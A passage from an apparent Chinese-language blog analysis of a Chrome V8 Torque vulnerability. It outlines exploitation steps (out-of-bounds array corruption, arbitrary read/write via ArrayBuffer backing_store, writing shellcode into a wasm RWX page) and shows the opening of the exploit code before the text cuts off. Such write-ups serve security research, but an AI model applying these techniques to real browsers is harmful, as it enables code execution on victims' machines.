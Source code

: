 ![image-20200909211837290](..\image\2020-09-07-chrome-Torque漏洞分析\11.png)



## 漏洞利用

（1）利用漏洞可以越界读写，在后面布置一个浮点型数组oob_array，越界修改它的长度，就可以通过这个浮点型数组进行越界读写，更加方便。

（2）利用越界数组搜索ArrayBuffer数组，找到backing_store所在位置，可以通过backing_store构造任意读写的原语

搜索需要注意的是由于第（1）步覆盖length时，将elements字段也覆盖了（新版v8引进的指针压缩，导致字段都占四个字节，而浮点型数组赋值是8个字节为单位）。所以将elements覆盖成1（表示指针），即从0起始地址开始搜索。然后根据调试确定ArrayBuffer 以及后面的wasm Instance大概处于什么内存区间，进行遍历搜索。在笔者的环境中，搜索以下几个区域：

```javascript
var search_space = [[0x8902000/8, (0x8940000/8)-1], [0x8213000/8, (0x8280000/8)-1], [(0x8040000-8)/8, 0x805b000/8], [0x8100000/8, (0x818d000/8)-1], [0x8740000/8, (0x8900000/8)-1], [0x8901000/8, (0x8940000/8)-1]];
```

该方法由于某个区域可能不可访问，导致崩溃，所以exp执行成功有一定概率。

（3）利用越界数组搜索wasm function的位置，这里在mask后面布置的兑现是wasm Instance，因为rwx区域位于wasm Instance +0x68处，可以直接读取。而不用根据wasm function->wasm_shared_info->wasm_data->wasm_rwx 构造任意读原语一步步读取。

（4）利用任意写原语将shellcode 写入 rwx区域，即可完成利用。

编写该利用存在的坑：由于越界数组为浮点型，每次读写都是8个字节，而由于v8指针压缩的缘故，字段都被保存为4个字节，所以读写的字段可能位于高4个字节或低4个字节，就需要根据读出的内容进行分情况判断。

exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Uint32Array(buf);

var arraybuf = new ArrayBuffer(0x12333);

function f2i(f)
{
	float64[0] = f;
	return BigInt(Uint32[0]) + (BigInt(Uint32[1]) << 32n);
}

function i2f(i)
{
```
